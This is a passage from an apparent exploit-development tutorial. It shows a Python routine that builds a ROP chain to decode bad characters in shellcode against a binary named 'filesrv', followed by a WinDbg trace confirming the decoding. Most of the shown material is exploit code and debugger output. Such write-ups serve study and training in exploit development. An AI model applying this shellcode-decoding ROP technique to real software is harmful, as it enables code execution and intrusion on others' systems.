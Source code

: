 ```python
		# get the offset from last bad char to this one - so we only iterate over bad chars and not over every single byte
		if i == 0:
			  offset = bad_indices[i]
		else:
			  offset = bad_indices[i] - bad_indices[i-1]
		neg_offset = (-offset) & 0xffffffff

		# get offset to next bad char into ecx
		rop += p32(0x0102e + binary_base)   # pop ecx; ret;
		rop += p32(neg_offset)

		# adjust eax by this offset to point to next bad char
		rop += p32(0x3ec4c + binary_base)   # sub eax, ecx; pop ebp; ret;
		rop += p32(0x41414141)
		rop += p32(0x102e + binary_base)    # pop ecx; ret;
		rop += p32(value)
		rop += p32(0x7f17a + binary_base)   # add byte ptr [eax], cl; add cl, cl; ret;
		print(f"({i}: {len(rop)})")
	return rop
```

First we get a copy of esp into ecx. Then we load eax with 0x522 and increment it – the point here is to get the offset from the stack pointer to our shellcode (since the ROP decoder needs to start decoding exactly at the start of our shellcode). After the first part is done, eax holds the start address of our shellcode as required.

We then loop over all indices of bad chars in our shellcode, advancing eax so it always points to the next bad char. We then increment the byte value at the location by 0x55, reversing the encoding operation. Note that this adds `7*4=28` bytes for every bad char and we don’t have much more than 1000 bytes for this rop decoder, which means that we are limited in the amount of bad chars we can handle (about 30).

Before moving on let’s observe one time how the decoder is modifying a badchar:

```
filesrv+0x7f17a:
3fb2f17a 0008            add     byte ptr [eax],cl          ds:002b:00c1fd60=cb
0:001> r eax
eax=00c1fd60 <- Write Target
0:001> r ecx
ecx=11111155 <- Low Byte is Write Value

0:001> dd eax
00c1fd60  64db31cb <- 0x20 - 0x55 = 0xcb
0:001> p
0:001> dd eax
00c1fd60  64db3120 <- 0xcb + 0x55 = 0x20
```

This shows that we can successfully decode our shellcode bad chars.

## Working with Skeletons
